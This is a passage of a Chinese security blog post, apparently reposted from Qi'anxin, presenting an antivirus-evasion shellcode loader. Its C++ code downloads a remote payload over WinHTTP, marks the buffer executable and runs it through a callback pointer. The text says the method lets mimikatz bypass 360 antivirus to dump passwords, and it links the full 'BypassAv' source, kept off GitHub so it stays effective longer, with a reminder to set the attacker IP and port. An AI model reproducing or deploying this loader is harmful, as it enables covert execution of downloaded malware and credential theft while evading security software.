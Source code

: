     char* pszOutBuffer = new char[dwSize];  
      
    ZeroMemory(pszOutBuffer, dwSize);  
      
    if (!WinHttpReadData(hRequest, pszOutBuffer,dwSize, &dwDownloaded))  
    {  
            printf("Error %u in WinHttpReadData.\n", GetLastError());  
    }  
    else  
    {  
            cout << "[*] Loading" << endl << endl;  
      
            DWORD ppp;  
            VirtualProtect(pszOutBuffer, dwSize, PAGE_EXECUTE_READWRITE, &ppp);  
            HINTERNET hopen = WinHttpOpen(L"User", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);  
            WINHTTP_STATUS_CALLBACK callback = WinHttpSetStatusCallback(hopen, (WINHTTP_STATUS_CALLBACK)pszOutBuffer, WINHTTP_CALLBACK_FLAG_HANDLES, NULL);  
            if (callback == WINHTTP_INVALID_STATUS_CALLBACK) {  
                    cout << "[*] WinHttpSetStatusCallback Error" << endl;  
                    exit(1);  
            }  
      
            cout << "[*] Load Success  " << endl << endl;  
            WinHttpCloseHandle(hopen);  
    }  
    

这里我把杀软关了，所以可以正常读取密码

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221005121500.png)

同理，使用这种方法，应该可以免杀一些exe文件了，这个师傅们可以自己试一下，毕竟mimikatz本身没有做任何处理都能绕过360加载了

## 完整代码

为了师傅们多玩会，暂时就不放github了，这样有效时间久点，我放在了阿里云上

「BypassAv」https://www.aliyundrive.com/s/4fYTr7yXdkU 提取码: l7pg  
点击链接保存，或者复制本段内容，打开「阿里云盘」APP ，无需下载极速在线查看，视频原画倍速播放。

源码中的ip地址，端口这类的师傅们在使用的时候记得更改，都在wmain函数下

本文转载自奇安信，更多内容请点击“阅读原文”

>精彩回顾<  
 ****

[干货 |
红队快速批量打点的利器](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  

[【干货】最全的Tomcat漏洞复现](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484175&idx=1&sn=89771c538a529efd108d4a676c093ea7&chksm=fcdf5f10cba8d606f3c2a635b0bb94da11e8978dba2ac4ed9e4debab7a7401ecc8a0f43777b6&scene=21#wechat_redirect)
